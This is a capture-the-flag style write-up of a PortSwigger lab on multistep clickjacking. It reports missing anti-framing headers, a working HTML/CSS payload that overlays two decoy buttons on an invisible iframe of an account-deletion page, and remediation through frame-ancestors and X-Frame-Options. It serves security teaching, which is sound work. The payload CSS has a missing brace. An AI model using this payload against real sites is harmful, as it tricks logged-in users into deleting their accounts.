




# LAB 05 - Multistep clickjacking

## Lab Information

- **Category:** Click Jacking
- **Type:** CSRF Token
- **Difficulty:** APPRENTICE
- **Status:** ✅ PRACTITIONER
- **Date:** 2026-9-19

---


---

# Table of Contents

- Executive Summary
- Lab Information
- Objective
- Vulnerability Overview
- Attack Prerequisites
- Environment & Scope
- Methodology
- Discovery Process
- Technical Analysis
- Payload Analysis
- Exploitation Flow
- Evidence
- Impact
- Root Cause
- Risk Assessment
- Remediation
- Lessons Learned
- References
- Screenshots

---

# Executive Summary

A "clickjacking" vulnerability was discovered in the account deletion function a process that includes an additional step for confirmation. The account page, which requires the user to be logged in, lacked effective measures to prevent it from being embedded within an `iframe`. This made it possible to place the page inside such a frame. A deceptive user interface element was positioned over the original "Delete Account" button, and another over the "Confirm Deletion" button, such that two clicks by a logged-in user would trigger a sensitive action without their knowledge.

---

# Objective

This lab aims to demonstrate how an attacker can embed a logged in account page within an `iframe`, conceal the original interface using CSS, and then position deceptive elements over the "Delete Account" and "Confirm Deletion" buttons—thereby tricking the victim into unintentionally deleting their account.

---

# Vulnerability Overview

A clickjacking vulnerability occurs when an attacker tricks a victim into believing they are clicking on an element on a specific page, while the click is actually registered on a different site all in the absence of any protective mechanisms against such attacks.

---


# Attack Requirements

1. The target page must be frameable by the attacker.
2. The attacker must be able to control the framing page's layout and CSS.
3. The target page must contain a security-sensitive user action that can be triggered through a click.
4. The victim must be authenticated to the target application.

---

# Environment & Scope

| Item | Value |
|------|-------|
| Target | PortSwigger Web Security Academy lab |
| Primary Endpoint | `/my-account/delete` |
| Primary HTTP Method | POST |
| Primary Action | Account deletion |
| CSRF Parameter | `csrf` |
| Authentication | Session cookie |
| Attack Platform | Exploit Server |
| Attack Vector | Cross-site HTML / iframe |

---

# Methodology
1. Log in to the lab using the provided credentials.
2. Navigate to the authenticated page `/my-account?id=wiener`.
3. Capture the request for the authenticated page using Burp Suite.
4. Review the server's response to check for anti-framing protections.
5. Verify that the response does not include the `X-Frame-Options` header or a `frame-ancestors` directive within the Content Security Policy (CSP).
6. Embed the authenticated page within an `iframe` hosted on an exploit server.
7. Position a deceptive element over the original "Delete account" button.
8. Position another deceptive element over the original "Yes" (confirm account deletion) button.
9. Deliver the exploit to the victim and verify that the account deletion action is executed.
ؤ
---

# Discovery Process

### Step 1 — Capture login request

```text
GET /my-account?id=wiener HTTP/2
HOST: XXXXXXXXXX web-security-academy.net
Cookie: session=XXXXXXXXX
```

The request displays the username "wiener" along with the session data; we use the Repeater to resend the same request and obtain the server's response for analysis.

### Step 2 — Reviewing the response

```text
HTTP/2 200 OK
Content-Type text/html; charset-utf-8
Cache-control:no-cache
Content-Length: 6654
```
Upon examining the response, we observe the absence of any protection mechanism against clickjacking vulnerabilities, such as `X-Frame-Options` or `Content-Security-Policy`.

---

# Payload Analysis

## Payload Used

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 1000px;
        opacity:0;
        z-index: 2;
    }

    .decoy1 {
        position: absolute;
        z-index: 1;
        top: 500px;
        left: 70px;
    }

  .decoy2 {
        position: absolute;
        z-index: 1;
        top: 300px;
        left: 190px;
</style>

<div class="decoy1">Click me</div>

<div class="decoy2">Click me another</div>


<iframe src="https://LAB ID.web-security-academy.net/my-account">
</iframe>
```

## Why This Payload Works

```html
<style>
     iframe {
        position: relative;
        width: 700px;
        height: 1000px;
        opacity:0;
        z-index: 2;
    }

```
It concerns the configuration of the frame from its height, degree of transparency, and stacking order, to its width and position.

```html
.decoy1 {
        position: absolute;
        z-index: 1;
        top: 500px;
        left: 70px;
    }
```
This section deals with styling the button that will appear above the email deletion button; here, we adjust its height, left spacing, positioning, and arrangement.

```html
.decoy2 {
        position: absolute;
        z-index: 1;
        top: 300px;
        left: 190px;
</style>
```
This section covers the styling of the button that will appear above the email deletion confirmation button; specifically, we adjust its height, its distance from the left, its positioning, and its stacking order.

```html
<div class="decoy1">Click me</div>
```
This section covers the creation of the deceptive element positioned over the account deletion button, along with the text contained within it.

```html
<div class="decoy2">Click me another</div>
```
This section covers the creation of the deceptive element positioned over the account deletion confirmation button, as well as the text contained within it.

```html
<iframe src="https://LAB ID.web-security-academy.net/my-account">
</iframe>
```
This part deals with creating the frame and embedding the target page within it using the `src` attribute.

---

# Exploitation Flow

```text

The victim authenticates within the target application.
                ↓
The attacker identifies a sensitive page that can be displayed inside an iframe.
                ↓
The attacker embeds that page within an iframe.
                ↓
The attacker creates a deceptive user interface (an overlay layer).
                ↓
The attacker aligns the overlay layer with the "Delete Account" button.
                ↓
The attacker creates another deceptive user interface (a second overlay layer).
                ↓
The attacker aligns the overlay layer with the "Confirm Account Deletion" button.
                ↓
The iframe is rendered effectively invisible.
                ↓
The attack reaches the victim.
                ↓
The victim clicks on the deceptive element displayed before them
                ↓
The click is redirected to the actual "Delete Account" button
                ↓
The victim clicks on another deceptive element displayed before them
                ↓
The click is redirected to the actual "Confirm Account Deletion" button
                ↓
The browser submits the original form, including the correct Cross-Site Request Forgery (CSRF) token
                ↓
The account deletion process is executed
          
  
```

---

# Impact

The impact demonstrated here is the unauthorized deletion of an account.

A successful "clickjacking" attack can trick a logged-in user into unintentionally triggering the account deletion function within an application—specifically by inducing them to click first on the "delete account" button and subsequently on the "confirm deletion" button.

Since account deletion is a destructive and potentially irreversible action, the success of such an attack can result in the loss of a user's account and all associated data.

This lab illustrates this specific impact; other potential consequences depend on the nature and sensitivity of the affected application's functionality.

---

# Root Cause

The root cause is the absence of effective anti-framing controls on the authenticated account page. The application does not restrict which external origins are permitted to embed the page through an iframe.

As a result, an attacker can frame the authenticated page and use CSS-based UI redressing to align a deceptive interface element with a legitimate security-sensitive action.

---

# Risk Assessment

| Item | Value |
|------|-------|
| Severity |  Medium |
| CVSS Score | Not calculated |
| CWE | CWE-1021: Improper Restriction of Rendered Page Layers or Frames |
| OWASP Reference | OWASP Click Jacking Prevention Guidance |
| Exploitability | Demonstrated in lab |
| Business Impact | Unauthorized account deletion and potential loss of associated account data |

---

# Remediation

- ### Content Security Policy

Implement the `frame-ancestors` directive to explicitly control which origins are allowed to embed the application.

Examples:

Content-Security-Policy: frame-ancestors 'none';

or:

Content-Security-Policy: frame-ancestors 'self';


- ### X-Frame-Options

Deploy `X-Frame-Options` as an additional anti-framing control:

X-Frame-Options: DENY

or:

X-Frame-Options: SAMEORIGIN
    
---

# Lessons Learned

- The presence of a valid CSRF token does not inherently prevent Clickjacking. When the authenticated page is successfully framed and the       victim interacts with the overlaid interface, the legitimate form submission can include the valid CSRF token.
- UI Redressing Mechanism: The attack relies on layering two elements using CSS; the target website is rendered completely invisible via the    opacity property (`opacity: 0`), while deceptive buttons are placed over it to entice the victim into clicking.
- The Importance of Element Alignment: The technical success of the attack relies on precision in using positioning properties (such as         `top`, `left`, and `z-index`) to align the hidden, sensitive buttons with the visible, decoy buttons.
- Absence of basic browser defenses: The lab demonstrates that the site is vulnerable due to the lack of security headers that prevent          framing such as the `X-Frame-Options` header or the Content Security Policy (CSP), specifically the `frame-ancestors` directive.
- Severity of impact: The attack demonstrates the potential to trick a user into taking critical, irreversible actions (such as permanently deleting an account) through just two unintentional clicks.
- CSRF Token Limitation: A valid CSRF token protects against certain forged requests, but it does not by itself prevent Clickjacking when an    attacker can cause the victim to interact with the legitimate framed page.
- A clickjacking attack can involve more than one click.


---

# References

- PortSwigger Web Security Academy — Click Jacking
- OWASP — Click Jacking Defense Cheat Sheet
- Mozilla Developer Network (MDN Web Docs)
- FIRST — CVSS Specification

---

# Screenshots

## Request and Response


...

## View exploit






...

## Payload



...


## Successful 



---

# Conclusion

This practical assessment revealed a "clickjacking" vulnerability affecting a critical action: account deletion.

In the absence of defensive mechanisms—such as the `X-Frame-Options` header or a Content Security Policy (CSP)—an attacker can embed the target page (which contains the sensitive account-deletion action) within an `<iframe>`. By setting the frame's opacity to zero, the attacker makes it impossible for the victim to see what they are clicking on. The attacker then positions a `<div>` element over the account-deletion button, effectively tricking the victim into clicking it.
It should be noted that protection against "clickjacking" attacks requires the implementation of a Content Security Policy (CSP)—specifically the `frame-ancestors` directive—and the activation of the `X-Frame-Options` security header, in addition to securing cookies using the `SameSite` attribute.

The key takeaway here is that a Cross-Site Request Forgery (CSRF) token does not provide protection against clickjacking attacks. 
Another important point is that a clickjacking vulnerability can involve more than just a single click.
